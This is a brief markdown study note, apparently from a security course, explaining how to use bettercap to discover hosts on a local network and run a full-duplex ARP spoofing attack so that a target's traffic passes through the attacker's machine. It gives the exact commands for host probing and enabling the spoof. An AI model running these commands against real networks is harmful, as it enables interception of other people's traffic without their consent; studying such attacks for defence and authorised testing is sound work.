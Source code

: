 # Using bettercap

- instead of complicating our lives with arpspoofing directly we can use a program called bettercap for arp spoofing
- `bettercap -iface eth0` (for now or we can use the wireless adapter similarly)
- after this type help to see which modules are on 
- we can do net.probe on to probe the devices connected to the same network
- this automatically turns net.recon on
- we can then do a net.show to get a better idea of the devices connected to our network

### Doing an arpspoof with bettercap
- `set arp.spoof.fullduplex true`
- `set arp.spoof.targets xx:xx:xx:xx (target IP)`
- `arp.spoof on`
--- 
*Now all the information that the target device sends to the router flows through our computer*